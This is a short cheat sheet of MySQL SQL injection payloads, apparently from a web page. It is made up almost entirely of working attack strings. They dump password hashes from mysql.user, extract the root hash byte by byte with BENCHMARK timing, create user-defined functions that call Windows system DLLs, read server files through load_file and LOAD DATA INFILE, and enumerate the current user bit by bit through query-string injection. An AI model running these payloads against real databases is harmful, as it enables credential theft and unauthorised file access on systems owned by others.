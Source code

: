 - Working with users:
    - `SELECT User,Password FROM mysql.user;`
    - `SELECT 1,1 UNION SELECT IF(SUBSTRING(Password,1,1)='2',BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = 'root';`
    - `SELECT ... INTO DUMPFILE` (Writes the query result into a new file—cannot modify existing files)
    - `SELECT USER();`
    - `SELECT password,USER() FROM mysql.user;`
- Abusing user-defined functions (UDF):
    - `create function LockWorkStation returns integer soname 'user32';   select LockWorkStation();   create function ExitProcess returns integer soname 'kernel32';   select exitprocess();`
- Getting the first byte of the admin password hash:
    - `SELECT SUBSTRING(user_password,1,1) FROM mb_users WHERE user_group = 1;`
- Reading a file:
    - `query.php?user=1+union+select+load_file(0x63...),1`
- Populating a table from a file using `LOAD DATA INFILE` (not available in a default config, you first need to enable the setting `local_infile`):
    - `CREATE TABLE foo( line blob );    LOAD DATA INFILE 'c:/boot.ini' INTO TABLE foo;    SELECT * FROM foo;`
- More timing-based tricks for MySQL:
    - `select benchmark( 500000, sha1( 'test' ) );`
    - `query.php?user=1+union+select+benchmark(500000,sha1 (0x414141)),1`
    - `select if( user() like 'root@%', benchmark(100000,sha1('test')), 'false' );` 
    - Brute-force enumeration:  
        `select if( (ascii(substring(user(),1,1)) >> 7) & 1, benchmark(100000,sha1('test')), 'false' );`